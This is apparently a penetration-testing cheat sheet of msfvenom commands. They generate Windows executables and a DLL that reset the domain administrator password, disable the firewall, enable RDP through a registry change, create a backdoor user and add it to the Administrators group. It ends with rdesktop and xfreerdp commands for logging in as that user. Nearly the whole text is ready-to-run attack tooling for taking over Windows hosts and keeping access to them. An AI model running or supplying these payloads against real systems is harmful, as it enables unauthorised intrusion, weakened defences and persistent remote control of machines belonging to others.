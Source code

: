 
#### Change administrator's password:
```
msfvenom -p windows/x64/exec cmd='net user administrator P@s5w0rd123! /domain' -f dll > da.dll
```

#### POC:
```
msfvenom -p windows/x64/exec CMD="C:\windows\system32\calc.exe" -f exe > poc.exe
```

#### Disable Firewall:
```
msfvenom -p windows/x64/exec CMD="netsh Advfirewall set allprofiles state off" -f exe > disableFirewall.exe
```

#### Enable RDP:
```
msfvenom -p windows/x64/exec CMD='reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f' -f exe > RDP.exe
```

#### Create new user:
```
msfvenom -p windows/x64/exec CMD="net user foobar Pass123 /add" -f exe > newUser.exe
```

#### Adding new user to admin group:
```
msfvenom -p windows/x64/exec CMD="net localgroup Administrators foobar /add" -f exe > add2Admin.exe
```

```
rdesktop -a 16 -z -u foobar -p Pass123 $KALI
```

```
xfreerdp /u:foobar /p:Pass123 /cert:ignore /v:$KALI
```
